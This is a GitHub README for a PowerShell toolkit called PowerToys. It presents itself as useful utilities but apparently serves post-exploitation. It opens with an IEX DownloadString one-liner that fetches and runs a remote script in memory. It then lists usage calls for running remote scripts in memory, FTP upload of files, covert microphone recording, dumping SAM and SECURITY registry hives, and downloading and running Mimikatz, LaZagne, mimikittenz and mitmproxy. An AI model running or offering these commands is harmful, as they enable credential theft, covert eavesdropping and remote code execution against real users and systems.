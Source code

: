 ![alt tag](https://raw.githubusercontent.com/maxpowersi/PowerToys/master/icon.png)
# PowerToys v1.0
PowerToys is a powershell collection of userfull functions like ftp upload, download functions, run in memory, unzip functions, etc. It is distributed under the GNU GPLv3 license. Before use a function, you must load the script in memory.
```
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/maxpowersi/PowerToys/master/powertoys.ps1")
```
## List of tools
### Download
This function download a file from an URL.
```
Download -url "https://example.com/file.txt" -outputfile "c:\windows\temp\file.txt"
```
### DownloadScript
This function download and load in memory a powershell script from an URL.
```
DownloadScript -url "http://example.com/a.ps1" 
```
### Unzip
This function allows unzip a file in speficif folder.
```
Unzip -inputfile "myzip.zip" -outputfolder "c:\windows\temp"
```
### UploadFtp
This function allows upload a file to FTP server.
```
UploadFtp -address "192.168.0.1" -username "username" -password "password" -outputfile "/folder/file.txt" -inputfile "file.txt"
```
### RunVoiceRecord
This functions allows record from mic.
```
RunVoiceRecord -outputfile "C:\windows\temp\secret.wav" -seconds 120
```
### DumpHives
This functio dump sam, system and security from register hives.
```
DumpHives -outputfolder "C:/windows/temp"
```
### RunMitmp
This function download, and run mitmproxy, in the 8080 port.
```
RunMitmp
```
### RunLazagne
This function download, unzip, and run Lazagne.
```
RunLazagne
```
### RunMimikatz
This function download and run mimikatz from Powersploit.
```
RunMimikatz
```
### RunMimikittenz
This function download and run mimikittenz.
```
RunMimikittenz
```
